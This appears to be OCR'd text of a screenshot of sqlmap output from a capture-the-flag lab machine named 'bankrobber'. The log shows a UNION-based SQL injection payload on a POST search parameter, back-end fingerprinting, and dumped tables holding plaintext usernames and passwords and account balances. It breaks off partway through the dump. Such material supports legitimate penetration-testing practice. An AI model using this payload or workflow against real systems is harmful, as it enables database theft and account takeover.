 ```txt

[*] starting @ 18:33:21 /2022-09-15/

[18:33:21] [INFO] parsing HTTP request from 'search.req'
[18:33:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: term (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: term=1' UNION ALL SELECT NULL,CONCAT(0x71627a7071,0x647277766c777453446341626453416975694f58504d6b6f616a7a6c4e7741744652574d7371524b,0x7162627671),NULL-- -
---
[18:33:22] [INFO] testing MySQL
[18:33:22] [INFO] confirming MySQL
[18:33:27] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.4, Apache 2.4.39
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:33:27] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[18:33:27] [INFO] fetching current database
[18:33:28] [INFO] fetching tables for database: 'bankrobber'
[18:33:30] [INFO] fetching columns for table 'users' in database 'bankrobber'
[18:33:32] [INFO] fetching entries for table 'users' in database 'bankrobber'
Database: bankrobber
Table: users
[3 entries]
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | Hopelessromantic | admin    |
| 2  | gio              | gio      |
| 3  | test             | test     |
+----+------------------+----------+

[18:33:32] [INFO] table 'bankrobber.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.10.154/dump/bankrobber/users.csv'
[18:33:32] [INFO] fetching columns for table 'balance' in database 'bankrobber'
[18:33:33] [INFO] fetching entries for table 'balance' in database 'bankrobber'
Database: bankrobber
Table: balance
[11 entries]
+----+--------+--------+
| id | userid | amount |
+----+--------+--------+
| 1  | 2      | 35     |
| 2  | 3      | 990    |
| 6  | 4      | 2048   |
| 7  | 5      | 1000   |
| 8  | 6      | 1000   |
| 9  | 7      | 1000   |
| 10 | 8      | 1000   |
| 11 | 9      | 1000   |
| 12 | 5      | 1000   |
| 13 | 6      | 1000   |
| 14 | 3      | 1000   |
+----+--------+--------+

[18:33:35] [INFO] table 'bankrobber.balance' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.10.154/dump/bankrobber/balance.csv'
[18:33:35] [INFO] fetching columns for table 'hold' in database 'bankrobber'
[18:33:36] [INFO] fetching entries for table 'hold' in database 'bankrobber'
```